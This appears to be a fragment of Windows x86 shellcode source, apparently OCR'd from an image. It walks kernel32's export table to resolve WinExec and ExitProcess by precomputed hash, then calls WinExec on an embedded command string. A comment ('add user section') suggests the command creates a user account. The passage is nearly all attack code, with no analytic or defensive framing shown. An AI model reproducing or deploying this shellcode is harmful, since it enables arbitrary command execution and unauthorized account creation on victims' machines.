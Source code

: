 ```
    mov cx, [ebx + 2 * ecx]
    mov ebx, [edx + 0x1c]
    add ebx, ebp
    mov eax, [ebx + 4 * ecx]
    add eax, ebp
    ;this is the VMA of the function
    mov [esp + 0x1c], eax
find_function_finished:
    popad
    ret
    
;END FUNCTION: find_function
;FUNCTION: resolve_symbols_for_dll
resolve_symbols_for_dll:
    ;about to load current hash into eax (pointed to by esi)
    lodsd
    push eax
    push edx
    call find_function
    mov [edi], eax
    add esp, 0x08
    add edi, 0x04
    cmp esi, ecx
    jne resolve_symbols_for_dll
resolve_symbols_for_dll_finished:
    ret
;END FUNCTION: resolve_symbols_for_dll
;DEFINE CONSTANTS
    
locate_hashes:
    call locate_hashes_return
    ;WinExec ;result hash = 0x98FE8A0E
    db 0x98
    db 0xFE
    db 0x8A
    db 0x0E
    ;ExitProcess ;result hash = 0x7ED8E273
    db 0x7E
    db 0xD8
    db 0xE2
    db 0x73
;END DEFINE CONSTANTS
start_asm: ; start our main program
    sub esp, 0x08 ; allocate space on stack for function addresses
    mov ebp, esp ; set ebp as frame ptr for relative offset on stack
    call find_kernel32 ;find address of Kernel32.dll
    mov edx, eax
    ;resolve kernel32 symbols
    jmp short locate_hashes ;locate address of our hashes
locate_hashes_return: ;define return label to return to this code
    pop esi ;get constants address from stack
    lea edi, [ebp + 0x04] ;this is where we store our function addresses
    mov ecx, esi
    add ecx, 0x08 ;length of dns shellcode hash list
    call resolve_symbols_for_dll
;add user section
    jmp short GetCommand
CommandReturn:
    pop ebx ;ebx now holds the handle to the string
    xor eax,eax ;empties out eax
    push eax ;push null onto stack as empty parameter value
    push ebx ;push the command onto the stack
    call [ebp+4] ;call WinExec(path,showcode)
```